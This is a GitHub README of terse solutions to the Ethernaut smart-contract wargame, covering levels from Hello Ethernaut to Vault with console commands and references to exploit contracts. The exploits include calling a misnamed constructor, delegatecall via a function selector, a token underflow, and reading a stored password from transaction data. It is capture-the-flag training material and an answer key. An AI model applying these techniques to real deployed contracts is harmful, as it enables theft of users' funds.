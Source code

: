 # Ethernaut Solutions
Solutions for Ethernaut. (At the moment, there are only the solutions without the explanations)



### Hello Ethernaut
Run on the console
```
contract.authenticate("ethernaut0")
```

### Fallback
Run on the console
```
contract.contribute({value:toWei('0.0001')})
sendTransaction({to: instance, from: player, value: toWei('0.0001')})
contract.withdraw()
```

### Fallout
Run on the console
```
contract.Fal1out()
```

### Coin Flip
deploy [coin-flip/Flipper.sol](coin-flip/Flipper.sol) and execute ```flip()``` 10 times


### Telephone
deploy [telephone/Middleware.sol](telephone/Middleware.sol) and execute ```changeOwner()```


### Token
deploy [token/Underflow.sol](token/Underflow.sol) and execute ```transfer(yourAddressHere)```

### Delegation
Run on the console
```
sendTransaction({to:instance, from:player, data:'0xdd365b8b'})
```

### Force
deploy [force/Forcer.sol](force/Forcer.sol), send some eth, and execute ```send()```

### Vault
Password is in Etherscan > Instance > From > Txn Hash > Input Data
Run on the console
```
contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")
```
